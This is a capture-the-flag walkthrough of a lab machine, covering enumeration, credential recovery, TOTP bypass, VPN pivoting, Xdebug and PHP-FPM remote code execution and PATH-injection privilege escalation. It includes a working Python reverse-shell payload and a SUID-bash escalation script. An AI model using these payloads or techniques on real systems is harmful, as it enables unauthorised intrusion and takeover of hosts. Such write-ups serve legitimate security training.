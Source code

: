 ## Enumeration

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:bb:a0:a1:20:b7:82:4d:d2:9f:35:52:f4:2e:6c:90 (RSA)
|   256 ca:ad:63:8f:30:ee:66:b1:37:9d:c5:eb:4d:44:d9:2b (ECDSA)
|_  256 2d:43:bc:4e:b3:33:c9:82:4e:de:b6:5e:10:ca:a7:c5 (ED25519)
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:a4:5c:e3:a9:05:54:b1:1c:ae:1b:b7:61:ac:76:d6 (RSA)
|   256 c9:58:53:93:b3:90:9e:a0:08:aa:48:be:5e:c4:0a:94 (ECDSA)
|_  256 c7:07:2b:07:43:4f:ab:c8:da:57:7f:ea:b5:50:21:bd (ED25519)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/vpn/ /.ftp_uploads/
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

It's a blank page. Let's check the entries from robots.txt. The `/vpn/` is a login page and `/.ftp_uploads/` is a directory index where two files exist `db.sql.gz` and `warning.txt`. The txt file contains:

```text
Binary files are being corrupted during transfer!!! Check if are recoverable.
```

This suggests to look for a fix up tool for the corrupted gz file and the one that worked I found [here](https://raw.githubusercontent.com/yonjar/fixgz/master/fixgz.cpp)

compile the cpp file with `g++ db.sql.gz fixed.gz` and then extract `gzip -d fixed.gz`.
What we end up getting is a file with the following contents:

```text
CREATE DATABASE static;
USE static;
CREATE TABLE users ( id smallint unsigned not null auto_increment, username varchar(20) not null, password varchar(40) not null, totp varchar(16) not null, primary key (id) ); 
INSERT INTO users ( id, username, password, totp ) VALUES ( null, 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997', 'orxxi4c7orxwwzlo' );
```

Let's crack the hash with john. The password is: admin.

Let's login to the login panel. After the first login we are prompted to a two-factor authentication panel requesting the OTP. We have the secret. We can use a this [website](https://totp.app/) to create an OTP.

Now we are greeted with a Internal IT Support portal. We can see the listed web servers and their status. With typing the server into the input field we get the corresponding ovpn file. We try "web" with address "172.2.0.10". Note that it'll connect after you add the domain to /etc/hosts. We can see that the domain is "vpn.static.htb" by opening the file.

Let's connect `openvpn web.ovpn`. When we try to browse the web the browser is left in loading state. If we check our interfaces (ifconfig) we notice that the new interface tun9 has an ip of "172.2.0.9". To vist 172.2.0.10 we need to add it to our route with `ip route add 128.2.0.0/24 dev tun9`. Now we succesfully can navigate to the web which is a directory index with two files a info.php and a vpn folder.

Displaying the php info page we see information disclosed about the program running Zend engine v3.2.0 and Xdebug v2.6.0. Searching for exploits we find a metaslpoit module for xdebug `exploit/unix/http/xdebug_unauth_exec`. We make use of it and gain shell to the filesystem.

## Pivoting

After an exhaustive for weak points on the system we note that we're connected to another interface eth1 with ip 192.168.254.2. If we recollect from a previous discovery we've found multiple networks and one of them pki (192.168.254.2) is in the same network on eth1. 

What we preferably want is web access via port forwarding:

```bash
ssh -L 8000:192.168.254.3:80 www-data@10.10.10.246 -p 2222 -i id_rsa
```

Then we can access the web by visiting `http://localhost:8000/` and we get a text:
```text
batch mode: /usr/bin/ersatool create|print|revoke CN
```
Let's get more info via the response header using curl:

```bash
curl localhost:8000 -I
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 07 Dec 2021 18:46:02 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP-FPM/7.1
```

Here's what's on the web for [vulnerabilities](https://medium.com/@knownsec404team/php-fpm-remote-code-execution-vulnerability-cve-2019-11043-analysis-35fd605dd2dc)

Running the to the forwarded port didn't work so we'll need to upload the exploit and run it on the compromished system. 

```bash
scp -P 2222 -i id_rsa exploit.py www-data@10.10.10.246:/tmp/exploit.py
```
Also upload a static netcat and the following script to make the get request and trigger the shell via RCE:

```python
import requests
 
payload = 'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")\''
 
r = requests.get("http://192.168.254.3/index.php?a="+payload)
print(r.text)
```

Open two ssh sessions and set-up a listener on one and on the other run the script 2-3 times until you get the callback.

Now that we have a shell as "pki" let's search for the ersatool. It's a binary run by root and after playing with it we see that it creates ovpn files:

If we search for the source code we find it, the program it's written in c:
```bash
find / -name ersatool.* 2>/dev/null
# /usr/src/ersatool.c 
```

Now we'll monitor the lib calls the program makes to exploit calls to relative paths.
Upload `pspy64` to the remote server. It'll require to open two ssh connections: one to run the binary and one to run pspy.

Capturing the lib calls we find that "openssl" is not using a absolute path, here are some of the lines:

```bash
2021/06/25 02:46:35 CMD: UID=0    PID=1965   | openssl version
2021/06/25 02:46:35 CMD: UID=0    PID=1973   | openssl rand -hex -out /opt/easyrsa/pki/serial 16
[REDACTED]
```

Now we'll use path injection to make the binary call our malicious openssl. Navigate to /tmp and create the openssl file:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Give execute permissions to openssl and export PATH. Run ersatool, create a random ovpn, exit and run /bin/bash -p to become root!

